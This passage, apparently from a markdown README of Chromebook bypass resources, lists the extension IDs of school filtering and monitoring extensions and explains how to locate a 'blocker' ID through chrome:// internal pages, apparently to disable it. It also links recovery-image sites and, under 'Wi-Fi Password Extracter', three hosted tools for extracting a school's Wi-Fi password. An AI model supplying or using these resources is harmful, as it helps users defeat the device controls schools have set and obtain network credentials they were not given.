|<a href="https://chrome.google.com/webstore/detail/imtlazarusv16/cgigopjakkeclhggchgnhmpmhghcbnaf">IMTLazarus</a>|`cgigopjakkeclhggchgnhmpmhghcbnaf`| 
|<a href="https://chrome.google.com/webstore/detail/impero-backdrop/jjpmjccpemllnmgiaojaocgnakpmfgjg">Impero Backdrop</a>|`jjpmjccpemllnmgiaojaocgnakpmfgjg`|
|<a href="https://chrome.google.com/webstore/detail/intersafe-gatewayconnecti/ecjoghccnjlodjlmkgmnbnkdcbnjgden">InterSafe GatewayConnection Agent</a>|`ecjoghccnjlodjlmkgmnbnkdcbnjgden`| 
|<a href="https://chrome.google.com/webstore/detail/gopher-buddy/cgbbbjmgdpnifijconhamggjehlamcif">Gopher Buddy</a>|`cgbbbjmgdpnifijconhamggjehlamcif`|
|<a href="https://chrome.google.com/webstore/detail/connect-for-chrome-educat/ddfbkhpmcdbciejenfcolaaiebnjcbfc">Connect for Chrome - Education</a>|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|

If your blocker is not on this list: go to `chrome://extensions`, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=). 
Here's all the good places to find your Blocker id 
`chrome://extensions` 
`chrome://extensions-internals` 
`chrome://process-internals` 
Search up the blocker ID on google if you have too 
If you can't find them in those URL'S Manualy then try to do ctrl + f and type in your blocker name or ID

</details>

<details>
<summary><b>Chrome100</b> Recovery image directory</summary>

<a href="https://chrome100.dev/">Website</a>

<a href="https://github.com/e9x/chrome100">GitHub</a>

</details>

<details>
<summary><b>Updates</b> View channel versions & download recovery images</summary>

<a href="https://cros.tech/">Website</a>

</details>

<details>
<summary><b>Changes</b> Chromium changes & requests</summary>

<a href="https://chromium-review.googlesource.com/">Website</a>

</details>

<details>
<summary><b>Wi-Fi Password Extracter</b> Extract your schools Wi-Fi password</summary>

<a href="https://sipe.glitch.me/">Sync Internals Password Extractor</a>

<a href="https://n-p-p-e.glitch.me/">Netlog Policy Password Extractor</a>

<a href="https://luphoria.com/netlog-policy-password-tool">Policy Password Tool</a>

</details>

